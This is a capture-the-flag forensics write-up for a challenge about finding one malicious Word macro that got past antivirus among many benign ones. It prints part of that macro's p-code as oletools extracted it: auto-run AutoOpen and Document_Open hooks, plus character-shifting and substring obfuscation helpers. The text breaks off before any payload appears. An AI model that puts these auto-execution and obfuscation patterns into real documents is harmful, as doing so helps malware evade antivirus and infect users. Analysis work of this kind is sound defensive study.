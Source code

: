 # Macro Madness #1 - The Breach (Forensics, Hard)  
```
Malware was downloaded and ran on one of our executive's workstations. We need your help figuring out where the malware came from, and what it did. IT was able to compile every email attachment containing macros that was received the day of the breach. Find the macro that bypassed antivirus, and figure out what it did.
According to threat intelligence, we suspect the hackers used a large volume of benign macros so a more advanced, malicious one would blend in.
```   

We are provided with a zip file. On unzipping the zip file on windows, defender automatically detects the malware in all the files except for one.  
In the description it is stated that only one bypasses the malware and we have to see what it did. So, to extract the macro from the word doc that remained, I used oletools. It gave the pcode.  
```
Line #0:
        FuncDefn (Function Sleep(ByVal mili As Long) As Long)
Line #1:
Line #2:
        FuncDefn (Sub AutoOpen())
Line #3:
        ArgsCall MyMacro 0x0000
Line #4:
        EndSub
Line #5:
Line #6:
        FuncDefn (Sub Document_Open())
Line #7:
        ArgsCall MyMacro 0x0000
Line #8:
        EndSub
Line #9:
Line #10:
        FuncDefn (Function achieve(believe))
Line #11:
        Ld believe
        LitDI2 0x0010
        Sub
        ArgsLd Chr 0x0001
        St achieve
Line #12:
        EndFunc
Line #13:
Line #14:
        FuncDefn (Function retrieve(relieve))
Line #15:
        Ld relieve
        LitDI2 0x0003
        ArgsLd Left 0x0002
        St retrieve
Line #16:
        EndFunc
Line #17:
Line #18:
        FuncDefn (Function perceive(deceive))
Line #19:
        Ld deceive
        Ld deceive
        FnLen
        LitDI2 0x0003
        Sub
        ArgsLd Right 0x0002
        St perceive
```